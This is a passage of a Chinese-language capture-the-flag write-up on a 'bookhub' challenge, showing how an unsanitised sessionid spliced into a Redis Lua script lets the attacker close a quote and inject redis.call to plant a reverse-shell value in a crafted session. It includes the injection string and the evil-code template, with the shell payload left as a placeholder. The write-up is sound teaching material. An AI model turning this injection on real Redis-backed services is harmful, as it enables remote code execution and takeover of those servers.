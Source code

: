 这里明显使用了redis lua,看来是要在session上做文章了<br>
我们发现代码中具有可控点`sessionid`<br>
并且这里存在严重拼接问题<br>
例如<br>[![](https://p1.ssl.qhimg.com/t011d6fcabdc686db26.png)](https://p1.ssl.qhimg.com/t011d6fcabdc686db26.png)我们可以闭合双引号，并引入恶意代码，让redis去执行<br>
(注:f是python3.6的新特性，在2018MeePwnCTF曾出现过一道使用该特性的题目，不再赘述)<br>
我们观察到构造方法

```
local inputs = `{``{` "`{`prefix`}``{`sessionid`}`" `}``}`
```

跟一下

```
prefix = app.config['SESSION_KEY_PREFIX']
```

发现

```
app.config['SESSION_KEY_PREFIX'] = 'bookhub:session:'
```

于是即可构造：

```
6f17c248-ed0d-4d74-bba6-21b9342c854a",redis evilcode,"bookhub:session:skycool
```

[![](https://p1.ssl.qhimg.com/t01a393d45de264abc0.png)](https://p1.ssl.qhimg.com/t01a393d45de264abc0.png)代码拼接后变成

```
$python3 main.py
`{` "bookhub:session:6f17c248-ed0d-4d74-bba6-21b9342c854a",redis evilcode,"bookhub:session:skycool" `}`
```

显而易见，下面我们只需要思考构造`redis evilcode`即可<br>
这里参考ph的两篇文章（当然要参考出题人写过的文章呀XD）

```
[https://www.leavesongs.com/PENETRATION/zhangyue-python-web-code-execute.html](https://www.leavesongs.com/PENETRATION/zhangyue-python-web-code-execute.html)
<a href="https://www.leavesongs.com/PENETRATION/getshell-via-ssrf-and-redis.html">https://www.leavesongs.com/PENETRATION/getshell-via-ssrf-and-redis.html
</a>
```

其中ph的两篇文章分别有提到：<br>[![](https://p1.ssl.qhimg.com/t01a4e52d9c1368d21f.png)](https://p1.ssl.qhimg.com/t01a4e52d9c1368d21f.png)<br>[![](https://p1.ssl.qhimg.com/t01a23d96410575d088.png)](https://p1.ssl.qhimg.com/t01a23d96410575d088.png)23333越看越像这道题<br>
既然如此，我们可以给自己构造的一个session赋反弹shell的值，于是构造如下evilcode

```
redis.call("set","bookhub:session:skycool",反弹shell)
```

打完之后将自己的session改为skycool，刷新反弹shell即可<br>
那么开始实操，我们先尝试一下curl
